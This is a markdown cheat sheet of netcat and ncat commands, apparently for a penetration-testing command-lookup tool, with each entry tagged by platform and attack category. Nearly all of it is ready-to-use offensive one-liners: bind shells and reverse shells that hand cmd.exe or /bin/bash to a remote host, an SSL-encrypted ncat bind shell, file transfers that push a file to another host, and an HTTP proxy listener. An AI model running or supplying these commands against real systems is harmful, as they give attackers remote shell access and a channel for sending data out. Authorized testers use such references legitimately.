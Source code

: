 # netcat

% nc, netcat

#platform/linux #target/remote  #cat/ATTACK/LISTEN-SERVE 
## nc setup listener
```
nc -nlvp <lport>
```

## nc bind shell windows
#platform/windows 
```
nc -nlvp <port> -e cmd.exe
```

## nc bind shell linux
#platform/linux
```
nc -nlvp <port> -e /bin/bash
```

## nc reverse shell windows
#platform/windows  #cat/ATTACK/REVERSE_SHELL 
```
nc -nv <ip> <port> -e cmd.exe
```

## nc reverse shell linux
#platform/linux #cat/ATTACK/REVERSE_SHELL 
```
nc -nv <ip> <port> -e /bin/bash
```

## nc transfer file - receiver
#platform/linux #cat/ATTACK/FILE_TRANSFER 
```
nc -nlvp <port> > <incomming_file>
```

## nc transfer file - sender
#platform/linux #cat/ATTACK/FILE_TRANSFER 
```
nc -nv <ip> <port> < <file_to_send>
```

# ncat

% ncat

## ncat bind shell ssl filtered
#platform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat --exec cmd.exe --allow <allowed_ip> -vnl <port> --ssl
```

## ncat bind shell ssl connection
#platform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat -v <ip> <port> --ssl
```

## ncat HTTP WEB proxy
#platform/linux #cat/ATTACK/LISTEN-SERVE 
```
ncat --listen --proxy-type http <port>
```

